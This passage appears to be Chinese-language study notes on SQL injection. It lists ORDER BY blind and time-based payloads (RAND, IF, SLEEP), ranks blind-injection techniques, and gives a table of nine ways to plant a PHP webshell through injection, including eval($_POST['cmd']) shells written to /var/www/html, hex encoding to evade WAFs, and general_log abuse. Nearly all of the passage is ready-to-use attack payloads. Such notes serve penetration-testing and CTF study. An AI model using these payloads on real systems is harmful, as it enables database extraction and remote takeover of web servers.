 1. payload出现在 ORDER BY后面

#### 二、注入技术

1. rank(seed)伪随机 | 不推荐因为不可靠，说是伪随机，可能不是伪的

   ```
   ORDER BY RAND(ASCII(SUBSTR(database(),1,1))>100)
   ```

   - 如果条件为真 → `RAND(1)` → 固定序列A
   - 如果条件为假 → `RAND(0)` → 固定序列B

2. 直接跟条件判断

   ```
   ORDER BY IF(ASCII(SUBSTR(database(),1,1))>100,column1,column2)
   ```

3. 降级为时间盲注

   ```
   ORDER BY IF(ASCII(SUBSTR(database(),1,1))>100,1,SLEEP(2))
   ```

   or

   ```
   ?sort=rand(if(ascii(substr(database(),1,1))>115,1,sleep(1)))
   ```

#### 三、盲注优先级

	传统布尔/排序盲注 > RAND()排序盲注 > 时间盲注

### 15. sqli webshell汇总

| 方法编号 | 写入方式                    | 示例 Payload                                                 | 描述                         |
| -------- | --------------------------- | ------------------------------------------------------------ | ---------------------------- |
| 1        | `UNION SELECT INTO OUTFILE` | `1' UNION SELECT 1,"<?php @eval($_POST['cmd'])?>" INTO OUTFILE '/var/www/html/x.php'--+` | 常规写入方式，适用于联合注入 |
| 2        | `LINES TERMINATED BY`       | `INTO OUTFILE '/var/www/html/x.php' LINES TERMINATED BY '<?php phpinfo(); ?>'--+` | 每行末尾写入 payload         |
| 3        | `LINES STARTING BY`         | `INTO OUTFILE '/var/www/html/x.php' LINES STARTING BY '<?php phpinfo(); ?>'--+` | 每行开头写入 payload         |
| 4        | `FIELDS TERMINATED BY`      | `INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo(); ?>'--+` | 字段之间插入 payload         |
| 5        | `COLUMNS TERMINATED BY`     | `INTO OUTFILE '/var/www/html/x.php' COLUMNS TERMINATED BY '<?php phpinfo(); ?>'--+` | 同上，语法变体               |
| 6        | `DUMPFILE` 写入             | `SELECT "<?php...?>" INTO DUMPFILE '/var/www/html/x.php';`   | 一次写入，无换行             |
| 7        | HEX 编码写入                | `SELECT 0x3c3f70687020... INTO OUTFILE '/var/www/html/x.php';` | 绕过 WAF 过滤关键字          |
| 8        | CONCAT 拼接写入             | `SELECT CONCAT("<?php ","eval($_POST[cmd]); ?>") INTO OUTFILE '/var/www/html/x.php';` | 拼接绕过                     |
| 9        | `general_log` 写入          | SHOW VARIABLES LIKE '%general%';<br/>SET GLOBAL general_log = ON;<br/>SET GLOBAL general_log_file = '/var/www/html/x.php';<br/>SELECT '<?php @eval($_POST["cmd"]); ?>';<br/>SET GLOBAL general_log = OFF; | 利用 MySQL 日志写入 shell    |

## 四、PortSwigger SQL
